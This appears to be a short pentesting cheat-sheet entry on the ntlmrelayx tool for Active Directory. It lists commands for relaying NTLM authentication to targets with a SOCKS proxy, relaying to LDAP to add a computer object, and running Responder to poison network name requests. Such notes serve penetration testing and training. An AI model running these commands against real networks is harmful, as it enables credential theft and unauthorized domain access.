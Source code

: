 ```yaml
---
tags:
  - tool
  - active_directory
---
```

# ntlmrelayx

For every connection received, this module will try to relay that connection to specified target(s) system or the original client

## Capabilities

```powershell
# Multi relay from target file gathered with netexec, holding authentications with socks
sudo ntlmrelayx.py -tf relay_targets.txt -smb2support -socks

# Add computer object (responder HTTP and SMB turned off)
sudo ntlmrelayx.py -t ldap://$IP -smb2support --no-da --no-acl --add-computer '$NEW_COMPUTER'

# Start responder to poison requests
sudo responder -I tun0
```

REDACTED THEORY
